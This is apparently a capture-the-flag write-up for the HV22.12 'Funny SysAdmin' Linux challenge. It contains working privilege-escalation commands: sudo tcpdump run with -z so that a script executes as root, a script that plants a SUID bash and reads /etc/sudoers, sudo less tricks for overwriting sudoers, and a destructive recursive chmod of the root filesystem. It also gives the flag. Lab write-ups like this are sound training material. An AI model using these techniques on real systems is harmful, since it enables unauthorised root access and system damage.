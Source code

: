 # [HV22.12] Funny SysAdmin

<table>
  <tr>
    <th>Categories</th>
    <td>Linux</td>
  </tr>
  <tr>
    <th>Level</th>
    <td>medium</td>
  </tr>
  <tr>
    <th>Author</th>
    <td>wangibangi</td>
  </tr>
</table>

## Description
Santa wrote his first small script, to track the open gifts on the wishlist. However the script stopped working a couple of days ago and Santa has been stuck debugging the script. His sysadmin seems to be a bit funny ;)

### Goal
Can you find the secret flag on the box?

Start the resources in the Resources section to find out!


## Solution

- The .ash_history revealed that user `santa` was able to run tcpdump.
- Privilege escalation with tcpdump: `sudo tcpdump -n -i any -G 1 -z ./doit.sh -w out.pcap` ([source](https://insinuator.net/2019/07/how-to-break-out-of-restricted-shells-with-tcpdump/)).
- The `find` binary was replaced with a dummy script.
- Let's use `busybox` directly: `/bin/busybox find / > /home/santa/find.out`
- Grep the file for "flag" and find `/root/secret/flag.txt`
- Copy that file over to `/home/santa` and change permissions.
- Profit.

All of these steps were done through the following script that I adjusted as we went on and re-ran it in a privileged context as root via tcpdump.

```
cat > doit.sh <<EOF
#!/usr/bin/env bash
id
cp /root/secret/flag.txt /home/santa/flag.txt
chmod +r /home/santa/flag.txt
/bin/busybox find / > /home/santa/find.out

chmod +r /var/log/wishlist.log
cp /bin/bash /home/santa/bash
chmod u+s /home/santa/bash
cat /etc/sudoers
#ls -al cat /etc/sudoers.d/
#cat /etc/sudoers.d/*
#cat >/etc/sudoers <<EOFF
#santa   ALL=(ALL:ALL) ALL
#EOFF
# cat /var/log/wishlist.log | tee ./out.log
EOF

# Make the script executable.
chmod +x doit.sh

# Invoke the script.
sudo tcpdump -n -i any -G 1 -z ./doit.sh -w out.pcap
```

## Other approaches
Other approaches would have involved:

- Check allowed sudo commands with `sudo -l`.
- Use `sudo less` to dump file contents readable by root.
    - Inside `less`, one can open (examine) another file via `:e <file>` and save contents from the current file to another file via `:s <otherfile>`.
    - With this, contents of `/etc/sudoers` could have been overwritten.
    - Conclude with `sudo -i` (to get a root shell using santa's password taken from the environment)
- A rather brute-force approach: Run `chmod 777 -R /` as root within the script run via tcpdump.

## Links
- https://gtfobins.github.io/gtfobins/tcpdump/

## Flag
```
HV22{M4k3-M3-a-S4ndW1ch}
```
